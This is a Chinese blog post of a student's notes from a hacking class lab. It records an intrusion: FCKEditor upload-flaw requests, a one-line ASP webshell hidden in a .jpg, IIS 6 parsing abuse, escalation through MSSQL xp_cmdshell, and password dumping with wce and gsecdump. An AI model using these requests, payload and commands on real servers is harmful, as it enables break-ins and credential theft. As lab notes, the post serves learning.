 ```yaml
---
layout: page  
title: The Hacker Way(1)  
category: 技术  
tags: Hacker   
---
```

{% include JB/setup %}

今天正式进入“十个小伙伴的故事”实战。这节课没有多余的废话，就是实战。

猥琐的老湿在他自己搭建的环境上演示了一把入侵，然后分析了下入侵的细节，然后我们便依样画葫芦的进行了一遍入侵。尽管只算是个小模拟，但是小心脏还是扑通扑通的兴奋。

今晚是第一次接触“入侵”，对于大部分概念不甚理解。现在只能记录下大概的操作步骤，作为记录。

这次的入侵是利用了网站的FCKEditor文件上传漏洞。

##### Step1. 定位漏洞，创建特殊文件夹名，再执行文件解析漏洞得到webshell
其实这里的难点应该是定位漏洞，不过作为第一次的实战课，老湿侧重让大家体验入侵的过程，省略了定位的过程。   

- 通过漏洞新建一个文件夹`/kingcms/admin/system/editor/FCKeditor/editor/filemanager/connectors/asp/connector.asp?`
`Command=CreateFolder&Type=Image&CurrentFolder=/hack.asp&NewFolderName=hack.asp`
- 进入操作界面
`/kingcms/admin/system/editor/FCKeditor/editor/filemanager/browser/default/browser.html?`
`Type=Image&Connector=../../connectors/asp/connector.asp`
- 制作包含ASP webshell代码的正常后缀名文件, 例如jpg文件
echo "<%execute(request("MH"))%>" >> jinbin.jpg
- 上传此文件至刚才新创建的文件夹内
此处利用了IIS 6处理文件夹扩展名时，将/\*.asp/目录下的所有文件都作为ASP文件进行解析的漏洞。此时，IIS 6将jinbin.jsp作为ASP文件处理。

##### Step2. 查找可进行提权的漏洞
完成第一步，仅仅只能获得普通权限，一般情况下其实什么也做不了。所以，找到提权的漏洞是第二步。

- 浏览目录结构，找到提权途径，一般分为以下几种：
  - 数据库
  - web应用程序
  - OS
  - 第三方软件
  - DLL劫持
  - 启动项 (...)  

此处利用里数据库的漏洞。所以把注意力放到配置文件中，找到数据库配置信息。一般来说，数据库信息都经过了加密，所以要学会解密(解密过程没怎么讲，所以略过)。

##### Step3. 服务器提权
利用植入的大马(猥琐的老湿事先已经准备好)，和Step2中得到的用户名、密码，通过MSSQL的扩展存储xp_cmdshell可直接执行命令，且权限为system

##### Step4. 获取账号hash
1. wce 可以通过wce -w 获取目前正处于登录状态的所有账号明文密码。   
   WCE全称Windows Credentials Editor。
2. gsecdump 可以通过gsecdump -a 获取处于这台服务器上的账号密码hash，然后通过彩虹表进行破解.  
这里可以参考http://www.objectif-securite.ch/en/ophcrack.php (在线LM Hash破解网站)  

这里的命令都利用了Step3 中的xp_cmdshell来执行。

至此，主机的管理员用户名及密码都已经到手了。
